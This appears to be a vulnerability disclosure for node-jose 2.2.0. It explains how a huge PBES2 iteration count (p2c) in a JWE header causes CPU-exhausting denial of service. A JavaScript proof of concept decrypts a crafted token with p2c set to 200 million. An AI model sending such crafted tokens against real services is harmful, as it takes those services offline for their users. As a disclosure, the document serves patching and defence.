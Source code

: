 # Dos in Node-Jose

## Summary

node-jose 2.2.0 allow attackers to cause a denial of service (CPU consumption) via a large p2c (aka PBES2 Count) value in a JOSE header.

### Details

The JWE key management algorithms based on PBKDF2 require a JOSE Header Parameter called p2c (PBES2 Count). This parameter dictates the number of PBKDF2 iterations needed to derive a CEK wrapping key. Its primary purpose is to intentionally slow down the key derivation function, making password brute-force and dictionary attacks more resource- intensive.
Therefore, if an attacker sets the p2c parameter in JWE to a very large number, it can cause a lot of computational consumption, resulting in a DOS attack

### PoC

```js
var jose = require("node-jose")
keystore = jose.JWK.createKeyStore();

keystore.add('{"alg":"PBES2-HS256+A128KW","kty":"oct", "k":"YXNk", "use":"enc"}').
then(function(result) {
    console.log(result)
});
jose.JWE.createDecrypt(keystore).
decrypt(JSON.parse('{"ciphertext":"CS4iMkMe98G9JCm_GHBY2hZvwHVO0URRekqErGK_gWo","encrypted_key":"zfkm7JbeK8b8fV32s8Cjd9Ke5ApvwkuWstP6V5uQjEFbsngNIRxQr6Y_dOKqENeCqrFb97YyT5466vz8A9iSjzaYMjx_ZsQ_","header":{"p2c":200000000,"p2s":"bI-cn3yKFoYn9it6VuJYmg"},"iv":"b8mAOAnIJkWKPyKTHF2hww","protected":"eyJhbGciOiJQQkVTMi1IUzI1NitBMTI4S1ciLCJlbmMiOiJBMjU2Q0JDLUhTNTEyIiwidHlwIjoiSldFIiwgInAyYyI6MjAwMDAwMDAsICJwMnMiOiJRVUZCUVVGQlFVRT0ifQ==","tag":"zkH2NrZhgzSBG-fdrdJkOyuScH6K4RBBDMm2Es7O6vM"}')).
then(function(result) {
    console.log(result)
});
```

